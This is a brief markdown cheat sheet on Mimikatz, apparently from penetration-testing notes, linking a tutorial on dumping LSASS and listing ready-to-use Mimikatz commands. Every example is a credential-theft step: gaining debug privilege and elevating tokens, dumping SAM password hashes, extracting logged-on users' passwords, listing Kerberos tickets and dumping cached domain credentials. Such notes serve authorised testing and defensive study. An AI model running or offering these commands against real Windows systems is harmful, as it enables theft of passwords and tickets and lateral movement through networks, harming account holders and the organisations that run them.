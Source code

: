 # Mimikatz

## Readings

* Dump LSASS process and load it into Mimikatz: [http://www.fuzzysecurity.com/tutorials/18.html](http://www.fuzzysecurity.com/tutorials/18.html)

## Examples

Dump password hashes

```
privilege::debug
token::elevate
lsadump::sam
```

Dump credentials of logged-on users

```
privilege::debug
sekurlsa::logonpasswords
```

Show Kerberos tickets

```
sekurlsa::tickets
```

Dump cached domain credentials

```
lsadump::cache
```
